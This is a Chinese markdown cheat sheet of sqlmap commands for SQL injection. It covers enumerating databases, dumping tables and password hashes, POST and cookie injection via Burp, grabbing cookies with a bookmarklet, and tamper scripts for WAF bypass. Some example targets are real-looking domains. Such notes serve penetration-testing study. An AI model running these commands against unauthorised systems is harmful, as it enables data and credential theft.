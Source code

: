 # Sqlmap使用
### 常规用法
- `python sqlmap.py -u "地址" --dbs` 列取数据库的所有库
- `python sqlmap.py -u "地址" --users` 查询所有用户
- `python sqlmap.py -u "地址" --passwords` 查询账户和密码
- `python sqlmap.py -u "地址" --current-db` 列取当前数据库
- `python sqlmap.py -u "地址" --current-user` 查询当前用户
- `python sqlmap.py -u "地址" -D 库名 --tables` 查询库中所有表
- `python sqlmap.py -u "地址" -D 库名 -T 表名 --columns` 查询指定库指定表中所有列
- `python sqlmap.py -u "地址" -D 库名 -T 表名 -C 字段,字段,字段 --dump` 查询指定库指定表指定列名的字段
- `-D 库名 -T 表名 -C 字段,字段 -start 1 -stop 10 --dump` 导出 1 到 10 行的字段

### sqlmap post 注入

结合 burpsuite 来使用 sqlmap:
1. 浏览器打开目标地址http:// www.2cto.com /Login.as
2. 配置 burp 代理 (127.0.0.1:8080) 以拦截请求
3. 点击 login 表单的 submit 按钮
4. 这时候 Burp 会拦截到了我们的登录 POST 请求
5. 把这个 post 请求复制为 txt, 我这命名为 search-test.txt 然后把它放至 sqlmap 目录下
6. 运行 sqlmap 并使用如下命令： `python sqlmap.py -r search-test.txt -p tfUPass` 参数 -r 是让 sqlmap 加载 post 请求 rsearch-test.txt， 而 -p 指定注入用的参数。

### sqlmap cookies注入

`sqlmap.py -u “http://127.0.0.1/base.php” –cookies “id=1″ –dbs –level 2`

默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level 参数且数值>=2的时候也会检查cookie时面的参数，当>=3的时候将检查User-agent和Referer，那么这就很简单了，我 们直接在原有的基础上面加上 –level 2 即可

利用sqlmap cookies注入突破用户登录继续注入 先把用户登陆的cookie拿到吧， 在收藏夹添加一个链接cookies属性： 名字自己取 javascript:alert(document.cookie)，，需要获取当前cookie的时候， 直接点一下这个链接，然后复制一下弹出对话框 里的cookie值就搞定了

`python sqlmap.py -u http://x.x.x.x/Down.aspx?tid=2 -p tid –dbms mssql –cookie=”info=username=test”`

-p是指指定参数注入

### sqlmap遇到url重写的注入

哪里存在注入就加上 * 号 `python sqlmap.py -u “http://www.cunlide.com/id1/1*/id2/2“`

### sqlmap 编码绕waf注入

- `python sqlmap.py -u http://127.0.0.1/test.php?id=1 -v 3 –dbms “MySQL” –technique U -p id –batch –tamper “space2morehash.py”`

在sqlmap 的 tamper目录下有很多space2morehash.py 编码脚本自行加载

### 相关链接
- https://www.freebuf.com/sectool/164608.html
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTUyMzM1NjI2Nl19
-->